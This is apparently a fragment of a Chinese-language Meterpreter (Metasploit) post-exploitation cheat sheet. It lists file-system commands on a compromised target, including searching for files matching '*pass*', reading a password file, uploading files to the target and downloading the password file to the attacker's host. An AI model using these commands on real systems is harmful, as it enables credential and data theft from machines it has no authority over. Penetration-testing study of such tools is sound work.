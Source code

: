 ```
play /root/1.mp3
```
## 查看 == ls
```
 pwd 
```
## meterpreter load

加载模块

```
load -l             \\查看可以加载的所有模块
```


# 文件系统命令

## 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
```
```
ls
```
```
cd
```
```
search -f *pass*       # 搜索文件  -h查看帮助
```
```
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
```
```
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
```
```
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
```
```
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
```
```
rm C:\\lltest\\hack.txt
```
```
mkdir lltest2  #只能在当前目录下创建文件夹
```
```
rmdir lltest2  #只能删除当前目录下文件夹
```
```
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
```
```
lcd /tmp   #操作攻击者主机 切换目录
```
